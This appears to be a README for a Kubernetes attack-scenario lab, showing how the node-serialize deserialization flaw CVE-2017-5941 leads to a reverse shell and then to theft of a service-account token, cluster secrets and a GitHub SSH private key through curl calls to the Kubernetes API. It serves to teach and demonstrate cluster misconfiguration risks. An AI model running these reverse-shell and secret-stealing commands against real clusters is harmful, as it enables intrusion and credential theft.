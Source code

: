 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce

1- `minikube start` \
2- `kubectl apply -f scenario-3-server.yaml` \
3- Create a test github account, generate SSH key and add to this account, we used an account with temporary mail.
4- Generate and add secret with base64 encoding with `kubectl create secret generic github-ssh-key --from-file=ssh-privatekey=/path/to/github_key`
3- Forward port `kubectl port-forward pods/scenario-3-server-deployment-c9b7c56cf-ggvgm 4242:4242` \
4- Listen on port `1234` and your ip for TCP connections like `nc -l 144.122.139.40 1234` \
5- Run poc.py with your ip `./poc.py 144.122.139.40` \
6- install curl with `apt-get -y update; apt-get -y install curl`
7- Because of the misconfigured permissions, attacker can access the secrets with `TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)`
8- Get pods with `curl --insecure --header "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces/default/pods`
7- Get secrets (the SSH Key) with Kubernetes API calls `curl --insecure --header "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces/default/secrets`
8- Attacker now has the ssh-privatekey
9- Attacker finds the repository url (which is https://github.com/exploit-me-co/exploit-this) in server.js, now they can access the repository with full access.

## Demo
https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/8e12be1a-de1a-4394-8157-72a7854a6245

